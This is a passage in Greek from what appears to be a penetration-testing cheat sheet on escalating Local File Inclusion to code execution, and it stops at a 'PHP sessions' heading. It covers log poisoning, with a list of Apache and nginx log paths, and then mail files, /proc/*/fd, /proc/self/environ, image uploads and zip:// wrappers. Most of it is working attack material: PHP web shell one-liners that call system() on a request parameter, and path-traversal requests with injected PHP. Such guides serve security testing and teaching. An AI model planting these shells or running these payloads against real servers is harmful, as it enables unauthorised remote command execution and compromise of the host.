 Αυτό θα μπορούσε επίσης να γίνει σε άλλες καταγραφές αλλά **προσοχή,** ο κώδικας μέσα στις καταγραφές θα μπορούσε να είναι URL κωδικοποιημένος και αυτό θα μπορούσε να καταστρέψει το Shell. Η κεφαλίδα **authorisation "basic"** περιέχει "user:password" σε Base64 και αποκωδικοποιείται μέσα στις καταγραφές. Το PHPShell θα μπορούσε να εισαχθεί μέσα σε αυτή την κεφαλίδα.\
Άλλες πιθανές διαδρομές καταγραφής:
```python
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```
Fuzzing wordlist: [https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### Via Email

**Στείλτε ένα email** σε έναν εσωτερικό λογαριασμό (user@localhost) που περιέχει το PHP payload σας όπως `<?php echo system($_REQUEST["cmd"]); ?>` και προσπαθήστε να συμπεριλάβετε στο email του χρήστη με μια διαδρομή όπως **`/var/mail/<USERNAME>`** ή **`/var/spool/mail/<USERNAME>`**

### Via /proc/\*/fd/\*

1. Ανεβάστε πολλές shells (για παράδειγμα: 100)
2. Συμπεριλάβετε [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), με $PID = PID της διαδικασίας (μπορεί να γίνει brute forced) και $FD τον file descriptor (μπορεί επίσης να γίνει brute forced)

### Via /proc/self/environ

Όπως ένα αρχείο καταγραφής, στείλτε το payload στο User-Agent, θα ανακλαστεί μέσα στο αρχείο /proc/self/environ
```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```
### Via upload

Αν μπορείτε να ανεβάσετε ένα αρχείο, απλά εισάγετε το shell payload σε αυτό (π.χ : `<?php system($_GET['c']); ?>`).
```
http://example.com/index.php?page=path/to/uploaded/file.png
```
Για να διατηρηθεί το αρχείο αναγνώσιμο, είναι καλύτερο να εισάγετε στα μεταδεδομένα των εικόνων/doc/pdf

### Μέσω ανέβασμα αρχείου Zip

Ανεβάστε ένα αρχείο ZIP που περιέχει ένα συμπιεσμένο PHP shell και αποκτήστε πρόσβαση:
```python
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```
### Via PHP sessions
